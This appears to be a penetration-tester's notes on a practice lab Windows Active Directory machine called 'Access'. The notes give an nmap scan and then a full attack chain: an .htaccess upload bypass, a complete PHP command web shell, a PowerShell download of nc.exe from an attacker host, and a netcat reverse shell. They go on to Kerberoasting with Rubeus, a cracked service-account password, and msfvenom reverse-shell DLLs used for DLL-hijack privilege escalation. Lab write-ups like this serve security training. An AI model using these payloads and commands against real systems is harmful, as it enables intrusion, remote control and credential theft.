


_____

>[!INFO]
> IP=192.168.229.46
> Windows

# Nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 11:29:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5h59m50s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-02-10T11:30:29
|_  start_date: N/A
```






https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

.phpt

Apache --> upload .htaccess

```bash
echo "AddType application/x-httpd-php .phpt" > .htaccess
```

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

```cmd
powershell -command Invoke-WebRequest -Uri http://192.168.45.250:80/nc.exe -Outfile C:\xampp\htdocs\uploads\nc.exe
```

```cmd
nc.exe 192.168.45.250 4444 -e cmd.exe
```


PowerView.ps1
import-module .\PowerView.ps1
Get-netuser svc_mssql
	serviceprincipalname (kerberoasting)
	TGS (ticket granting service)
.\rubeus.exe kerberoast /nowrap

john brute force

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1
PS> import-module .\Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

DLL Hijacking
SeManageVolumeAbuse (The "SeManageVolumePrivilege" privilege was set to enabled)
https://github.com/xct/SeManageVolumeAbuse
https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public


msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST LPORT -f dll -o Printconfig.dll
overwrite
copy C:\Windows\System32\spool\drivers\x64\3\ 
powershell

$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)


└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
And then, I transferred the DLL payload to "C:\Windows\System32\wbem\".


In the last step, I ran systeminfo to trigger the payload
